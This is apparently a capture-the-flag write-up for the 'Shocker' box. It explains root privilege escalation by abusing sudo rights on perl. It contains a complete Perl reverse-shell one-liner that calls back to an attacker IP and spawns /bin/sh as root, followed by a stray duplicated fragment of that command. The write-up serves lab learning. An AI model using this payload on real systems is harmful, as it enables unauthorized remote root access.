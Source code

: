 # Privilege Escalation to root
## User Shelly can run `/usr/bin/perl` as sudo 
User shelly can run `/usr/bin/perl` as sudo .
![[Pasted image 20210705103358.png]]
## Getting reverse shell as root running perl reverse shell script as root
Command used for privilege escalation to root.
```bash
shelly@Shocker:/home/shelly$ sudo /usr/bin/perl -e 'use Socket;$i="10.10.14.71";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
<TDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
## Got reverse shell as root
![[Pasted image 20210705103812.png]]
